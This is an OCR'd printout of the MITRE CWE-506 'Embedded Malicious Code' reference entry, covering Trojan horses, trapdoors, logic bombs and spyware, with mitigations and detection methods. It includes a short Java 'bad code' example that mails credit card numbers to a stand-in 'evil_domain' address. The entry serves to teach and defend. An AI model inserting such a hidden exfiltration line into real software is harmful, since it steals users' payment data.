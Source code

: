 3/7/24, 3:02 PM CWE - CWE-506: Embedded Malicious Code (4.14)
https://cwe.mitre.org/data/deﬁnitions/506.html 1/3
Common W eakness Enumeration
A community-developed list of SW & HW weaknesses that can become
vulnerabilities
Home Search
CWE-506: Embedded Malicious Code
Weakness ID: 506
Vulnerability Mapping: (with careful review of mapping notes)
View customized information:
 Description
The product contains code that appears to be malicious in nature.
 Extended Description
Malicious flaws have acquired colorful names, including Trojan horse, trapdoor , timebomb, and logic-bomb. A developer might insert
malicious code with the intent to subvert the security of a product or its host system at some time in the future. It generally refers to a
program that performs a useful service but exploits rights of the program's user in a way the user does not intend.
 Relationships
 Relevant to the view "Research Concepts" (CWE-1000)
Nature Type ID Name
ChildOf 912 Hidden Functionality
ParentOf 507 Trojan Horse
ParentOf 510 Trapdoor
ParentOf 511 Logic/T ime Bomb
ParentOf 512 Spyware
 Modes Of Introduction
Phase Note
Implementation
Bundling
Distribution
Installation
 Common Consequences
Scope Impact Likelihood
Confidentiality
Integrity
AvailabilityTechnical Impact: Execute Unauthorized Code or Commands
 Demonstrative Examples
Example 1
In the example below , a malicous developer has injected code to send credit card numbers to the developer's own email address.
 Observed Examples
Reference Description
CVE-2022-30877 A command history tool was shipped with a code-execution backdoor inserted by a malicious party .
 Potential Mitigations
Phase: T estingAbout ▼ CWE List ▼ Mapping ▼ Top-N Lists ▼ Community ▼ News ▼
ALLOWED
Abstraction: Class
Conceptual OperationalMapping
FriendlyComplete Custom
(bad code) Example Language: Java 
boolean authorizeCard(String ccn) {
// Authorize credit card.
...
mailCardNumber(ccn, "evil\_developer@evil\_domain.com");
}3/7/24, 3:02 PM CWE - CWE-506: Embedded Malicious Code (4.14)
https://cwe.mitre.org/data/deﬁnitions/506.html 2/3Remove the malicious code and start an ef fort to ensure that no more malicious code exists. This may require a detailed review
of all code, as it is possible to hide a serious attack in only one or two lines of code. These lines may be located almost
anywhere in an application and may have been intentionally obfuscated by the attacker .
 Detection Methods
Manual Static Analysis - Binary or Bytecode
According to SOAR, the following detection techniques may be useful:
Cost ef fective for partial coverage:
Binary / Bytecode disassembler - then use manual analysis for vulnerabilities & anomalies
Generated Code Inspection
Effectiveness: SOAR Partial
Dynamic Analysis with Manual Results Interpretation
According to SOAR, the following detection techniques may be useful:
Cost ef fective for partial coverage:
Automated Monitored Execution
Effectiveness: SOAR Partial
Manual Static Analysis - Source Code
According to SOAR, the following detection techniques may be useful:
Cost ef fective for partial coverage:
Manual Source Code Review (not inspections)
Effectiveness: SOAR Partial
Automated Static Analysis
According to SOAR, the following detection techniques may be useful:
Cost ef fective for partial coverage:
Origin Analysis
Effectiveness: SOAR Partial
 Memberships
Nature Type ID Name
MemberOf 904 SFP Primary Cluster: Malware
MemberOf 1412 Comprehensive Categorization: Poor Coding Practices
 Vulnerability Mapping Notes
Usage: ALLOWED-WITH-REVIEW
(this CWE ID could be used to map to real-world vulnerabilities in limited situations requiring careful review)
Reason: Abstraction
Rationale:
This CWE entry is a Class and might have Base-level children that would be more appropriate
Comments:
Examine children of this entry to see if there is a better fit
 Notes
Terminology
The term "T rojan horse" was introduced by Dan Edwards and recorded by James Anderson [18] to characterize a particular
computer security threat; it has been redefined many times [4,18-20].
 Taxonomy Mappings
Mapped T axonomy Name Node ID Fit Mapped Node Name
Landwehr Malicious
 Related Attack Patterns
CAPEC-ID Attack Pattern Name
CAPEC-442 Infected Software
CAPEC-448 Embed V irus into DLL
3/7/24, 3:02 PM CWE - CWE-506: Embedded Malicious Code (4.14)
https://cwe.mitre.org/data/deﬁnitions/506.html 3/3CAPEC-636 Hiding Malicious Data or Code within Files
 Content History
 Submissions
Submission Date Submitter Organization
2006-07-19
(CWE Draft 3, 2006-07-19)Landwehr
 Modifications
 Previous Entry Names